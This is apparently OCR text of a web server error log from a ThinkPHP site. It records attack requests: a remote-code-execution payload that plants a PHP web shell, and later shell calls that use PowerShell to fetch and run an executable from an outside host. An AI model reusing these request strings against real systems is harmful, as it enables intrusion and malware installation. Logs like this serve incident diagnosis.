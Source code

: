


2019/06/10 07:08:55 [error] 4954#0: *226392 FastCGI sent in stderr: "Primary script unknown" while reading response header from upstream, client: 121.41.89.25, server: applet.dachagui.com, request: "GET /public/index.php?s=/index/\     think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^<?php%20$action%20=%20$_GET['xcmd'];system($action);?^>>hydra.php HTTP/1.1", upstream: "fastcgi://unix:/tmp/php-fpm.sock:", host: "47.110.132.1     38", referrer: "http://47.110.132.138:80/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo ^<?php $action = $_GET['xcmd'];system($action);?^>>hydra.php"




2019/06/12 16:28:03 [error] 4953#0: *235015 FastCGI sent in stderr: "Primary script unknown" while reading response header from upstream, client: 47.111.108.24, server: applet.dachagui.com, request: "GET /public/hydra.php?xcmd=cmd.     exe%20/c%20powershell%20(new-object%20System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/zfwyuckmfjgcmcg2443.exe');start%20%SystemRoot%/Temp/zfwyuckmfjgcmcg2443.exe HTTP/1.1", upstream: "fast     cgi://unix:/tmp/php-fpm.sock:", host: "47.110.132.138", referrer: "http://47.110.132.138:80/public/hydra.php?xcmd=cmd.exe /c powershell (new-object System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoo     t%/Temp/zfwyuckmfjgcmcg2443.exe');start %SystemRoot%/Temp/zfwyuckmfjgcmcg2443.exe"


2019/06/20 23:30:04 [error] 4953#0: *263812 FastCGI sent in stderr: "Primary script unknown" while reading response header from upstream, client: 221.230.132.58, server: applet.dachagui.com, request: "GET /public/hydra.php?xcmd=cmd     .exe%20/c%20powershell%20(new-object%20System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/dnnllwpzerbanxq31733.exe');start%20%SystemRoot%/Temp/dnnllwpzerbanxq31733.exe HTTP/1.1", upstream: "f     astcgi://unix:/tmp/php-fpm.sock:", host: "47.110.132.138", referrer: "http://47.110.132.138:80/public/hydra.php?xcmd=cmd.exe /c powershell (new-object System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%System     Root%/Temp/dnnllwpzerbanxq31733.exe');start %SystemRoot%/Temp/dnnllwpzerbanxq31733.exe"



[06-Dec-2018 23:40:51 PRC] PHP Fatal error:  Uncaught think\exception\ErrorException: Undefined index: argv in /data1/www/WxApi/thinkphp/library/think/debug/Html.php:64
